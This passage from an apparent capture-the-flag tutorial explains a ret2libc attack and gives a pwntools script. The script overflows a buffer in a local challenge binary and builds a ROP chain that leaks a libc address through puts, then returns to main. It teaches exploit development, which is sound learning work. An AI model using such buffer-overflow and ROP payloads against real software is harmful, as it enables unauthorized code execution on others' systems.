 ![image](/pwn/images/ret2libc1.png)

As you can see, we have some unreadable bytes which is probably our leak, and our program ends.

However since our LIBC addresses change everytime we run the binary, our program ending makes our leak useless. Hence after our payload, we have to return to `main()` to loop the program.

Let's also try to receive the leak in a more readable format.

Like how we send our data in little endian, our output is also in little-endian.

We can easily revert it with pwntools `u64()` which unpacks a 64-bit little-endian value.

_note: u64() only accepts 8 byte values, hence if your leak is not 8 bytes, you have to add some null bytes to the left of the leak_

<br>

#### Script 2:

```py
from pwn import *

p = process('./chall')

OFFSET = 0x100 + 8 # 0x100 is size of our variable, 8 is our saved rbp
PUTSPLT = 0x401050
GETSGOT = 0x404020
POPRDI = 0x4011f3
MAIN = 0x401156

payload = b"A" * OFFSET
payload += p64(POPRDI) + p64(GETSGOT) # place GETSGOT into RDI
payload += p64(PUTSPLT) # call puts(GETSGOT)
payload += p64(MAIN) # loop back to main for round 2 exploit

p.sendline(payload)

p.recvuntil(b"A"*OFFSET)
extra = u64(p.recvline().strip().ljust(8, b'\x00'))
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
# usually we would only expect one leak which is the libc address of gets
# however I noticed there are 2 leaks here due to the lack of a null terminator \x00 in the libc address, which causes puts to continue printing other addresses (which are irrelevant in our case)

```